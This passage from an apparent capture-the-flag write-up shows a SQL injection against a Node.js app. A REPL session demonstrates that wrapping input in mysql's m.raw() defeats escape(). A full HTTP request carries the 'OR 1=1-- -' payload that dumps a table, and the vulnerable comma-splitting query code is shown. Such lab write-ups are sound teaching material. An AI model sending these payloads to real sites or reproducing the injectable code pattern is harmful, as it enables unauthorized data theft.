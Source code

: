Now, let's see exactly how the `m.raw()` function and the `tempCont.escape()` functions interact with each other using a simple SQL injection

Example of what happens in the code that I ran from the NodeJS REPL:

```javascript
> var createcon = require('./custom_modules/modconnection');
undefined
> var tempCont = new createcon();
undefined
> tempCont.escape('1 OR 1=1 -- -');
"'1 OR 1=1 -- -'"
> tempCont.escape('1" OR 1=1 -- -');
`'1\\" OR 1=1 -- -'`
> var m = require('mysql');
undefined
> m.raw('1 OR 1=1 -- -')
{ toSqlString: [Function: toSqlString] }
> tempCont.escape(m.raw('1 OR 1=1 -- -'));
'1 OR 1=1 -- -'
```

Looks like it doesn't affect it at all!

So now we can start playing with the full SQL string. To get to the above iteration, we need to supply at least 2 values to the URL. And since this is a URL, we need to escape spaces and things.

After some trial and error, and finding out that Burp uses the `+` sign instead of the `%20` escape sequence for a space and that this particular application was none too happy with that substitution, I discovered something....

```HTTP
GET /detail/1,2%20OR%201=1--%20- HTTP/2
Host: staging.jackfrosttower.com
Cookie: _csrf=OMNZhMkHvNbrt14GnM6MfwUU; connect.sid=s%3AaixnfqEi2f4Bjcirl25qI1mCKL9uP0HM.E7t9mwj5zMgnX5R7AaPLwfdFNOjuMyv4YHZvvJ5AZ5M
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Te: trailers
```

This dumped the entire uniquecontact database! With the above, the SQL can be interpreted as such:

`SELECT * FROM uniquecontact WHERE id=1 OR id=2 OR 1=1-- - OR id=?`

Meaning that everything after the `-- -` is commented out! Let's try to build a union injection! My first instinct is to set up something like this: `1,2 UNION SELECT 1,2,3...`, but sadly due to the following code:

```javascript hl_lines="3"
        try {
            if (reqparam.indexOf(',') > 0){
                var ids = reqparam.split(',');
                reqparam = "0";
                for (var i=0; i<ids.length; i++){
                    query += tempCont.escape(m.raw(ids[i]));
                    query += " OR id="
                }
```
